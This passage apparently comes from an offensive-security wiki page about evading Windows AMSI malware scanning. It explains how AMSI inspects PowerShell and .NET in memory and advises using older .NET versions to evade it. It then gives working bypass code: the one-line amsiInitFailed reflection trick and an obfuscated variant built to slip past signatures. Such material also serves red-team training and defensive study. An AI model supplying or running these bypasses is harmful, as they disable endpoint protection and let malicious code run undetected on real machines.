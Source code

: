 ![](../images/image (1135).png)

Notice how it prepends `amsi:` and then the path to the executable from which the script ran, in this case, powershell.exe

We didn't drop any file to disk, but still got caught in-memory because of AMSI.

Moreover, starting with **.NET 4.8**, C# code is run through AMSI as well. This even affects `Assembly.Load(byte[])` to load in-memory execution. Thats why using lower versions of .NET (like 4.7.2 or below) is recommended for in-memory execution if you want to evade AMSI.

There are a couple of ways to get around AMSI:

- **Obfuscation**

Since AMSI mainly works with static detections, therefore, modifying the scripts you try to load can be a good way for evading detection.

However, AMSI has the capability of unobfuscating scripts even if it has multiple layers, so obfuscation could be a bad option depending on how it's done. This makes it not-so-straightforward to evade. Although, sometimes, all you need to do is change a couple of variable names and you'll be good, so it depends on how much something has been flagged.

- **AMSI Bypass**

Since AMSI is implemented by loading a DLL into the powershell (also cscript.exe, wscript.exe, etc.) process, it's possible to tamper with it easily even running as an unprivileged user. Due to this flaw in the implementation of AMSI, researchers have found multiple ways to evade AMSI scanning.

**Forcing an Error**

Forcing the AMSI initialization to fail (amsiInitFailed) will result that no scan will be initiated for the current process. Originally this was disclosed by [Matt Graeber](https://twitter.com/mattifestation) and Microsoft has developed a signature to prevent wider usage.

```bash
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

All it took was one line of powershell code to render AMSI unusable for the current powershell process. This line has of course been flagged by AMSI itself, so some modification is needed in order to use this technique.

Here is a modified AMSI bypass I took from this [Github Gist](https://gist.github.com/r00t-3xp10it/a0c6a368769eec3d3255d4814802b5db).

```bash
Try{#Ams1 bypass technic nº 2
      $Xdatabase = 'Utils';$Homedrive = 'si'
      $ComponentDeviceId = "N`onP" + "ubl`ic" -join ''
      $DiskMgr = 'Syst+@.MÂ£nÂ£g' + 'e@+nt.Auto@' + 'Â£tion.A' -join ''
      $fdx = '@ms' + 'Â£InÂ£' + 'tF@Â£' + 'l+d' -Join '';Start-Sleep -Milliseconds 300
      $CleanUp = $DiskMgr.Replace('@','m').Replace('Â£','a').Replace('+','e')
      $Rawdata = $fdx.Replace('@','a').Replace('Â£','i').Replace('+','e')
      $SDcleanup = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $CleanUp,$Homedrive,$Xdatabase))
      $Spotfix = $SDcleanup.GetField($Rawdata,"$ComponentDeviceId,Static")
      $Spotfix.SetValue($null,$true)
   }Catch{Throw $_}
```
